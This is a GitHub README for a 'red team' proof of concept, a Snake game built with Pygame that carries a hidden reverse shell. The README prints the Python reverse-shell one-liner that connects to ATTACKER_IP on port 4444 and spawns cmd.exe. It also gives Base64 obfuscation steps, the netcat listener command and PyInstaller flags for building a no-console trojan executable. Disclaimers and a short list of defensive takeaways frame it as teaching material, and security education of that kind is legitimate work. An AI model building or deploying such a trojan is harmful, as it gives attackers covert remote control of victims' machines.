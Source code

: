 # Red Team Demo: Covert Channel in a Snake Game

**Disclaimer: For Authorized Educational and Security Research Purposes Only**

This repository contains a proof-of-concept demonstration of a Trojan horse application, developed for educational purposes in the field of cybersecurity.

## ⚠️ Legal and Ethical Notice

- **This software is provided for EDUCATIONAL USE ONLY.**
- **You MUST use this only in environments you own or have explicit, written permission to test.**
- **Unauthorized use of this software is illegal and unethical.**
- **The author is not responsible for any misuse or damage caused by this program.**
- **By using this software, you agree to these terms and assume all responsibility.**

## 🧪 Project Overview

This project embeds a reverse shell payload within a fully functional Snake game built with Python and Pygame. The goal is to demonstrate key Red Team tactics in a controlled lab environment, including:

- **Trojan Development:** Hiding malicious functionality within a legitimate application.
- **Covert Communication:** Establishing a reverse shell (C2 channel).
- **Payload Obfuscation:** Using Base64 encoding.
- **Stealth Techniques:** Executing the payload in a background thread and compiling to a single executable with no console window.

## 🛠️ Lab Setup & Requirements

### Prerequisites
- **Attacker Machine:** Kali Linux (or any Linux with `netcat`).
- **Victim Machine:** A Windows virtual machine for safe testing.
- **Python 3.12** and the following libraries:
  ```bash
  Usage
  pip install pygame pyinstaller
  or
  install one at a time
  
## Configure the Payload:

Open **_snake_game_trojan.py_**.

Find the **ENCODED_PAYLOAD** variable.

Generate your own encoded payload. Encode the following code, replacing ATTACKER_IP with your Kali machine's IP, using a site like base64encode.org:

```python
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(['cmd.exe'])
Paste the generated Base64 string into the code.
```

## Start the Listener on Kali:

```bash
nc -nvlp 4444
```

## Build the Executable:
```bash
PyInstaller --onefile --noconsole snake_game_trojan.py
or
python -m PyInstaller --onefile --noconsole snake_game_trojan.py
The executable will be in the dist/ folder.
```

## Execute and Observe:
Run snake_game_trojan.exe on the Windows VM.
The Snake game will open. Check your Netcat listener for a shell.

## 🛡️ Defensive Takeaways
This demo highlights the importance of:

- Application Allow-listing
- Endpoint Detection and Response (EDR)
- Network Monitoring
- User Security Training

## 📜 License
This project is licensed under the MIT License - see the LICENSE file for details.

